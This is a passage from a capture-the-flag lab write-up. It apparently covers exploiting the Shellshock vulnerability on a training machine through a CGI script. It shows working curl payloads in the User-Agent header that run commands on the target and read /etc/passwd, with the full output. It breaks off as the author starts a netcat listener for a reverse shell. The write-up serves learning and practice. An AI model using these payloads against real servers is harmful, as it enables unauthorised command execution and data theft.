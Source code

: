 ~~~
in the server error log.</p>
<hr>
<address>Apache/2.4.18 (Ubuntu) Server at 10.129.49.36 Port 80</address>
</body></html>
~~~
It took a while before the response was shown, but I did not like the error displayed to me as an Internal Server Error. I decided to look further on the internet and I found a article on [seven layers](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) about exploiting a shellshock manually. After reading the article I thought to give it a try against shocker.
To see if the exploit would work with this command a request is made to the id binary on the target. The exploit command what I will use looks like this: **curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://$ip/cgi-bin/user.sh**

~~~
┌──(emvee㉿kali)-[~]
└─$ curl -A "() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /usr/bin/id" http://$ip/cgi-bin/user.sh

uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
~~~
The id of the user is shown to me, now let's try to cat the **/etc/passwd** file on the target before creating a reverse shell on the target.
~~~
┌──(emvee㉿kali)-[~]
└─$ curl -H 'User-Agent: () { :; }; echo ; echo ; /bin/cat /etc/passwd' bash -s :'' http://$ip/cgi-bin/user.sh

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly:x:1000:1000:shelly,,,:/home/shelly:/bin/bash
~~~
The command shows the **/etc/passwd** content after running the command to exploit the shellshock vulnerability.
To gain a shell on the system I start a netcat listener on the machine.
~~~
┌──(emvee㉿kali)-[~]
~~~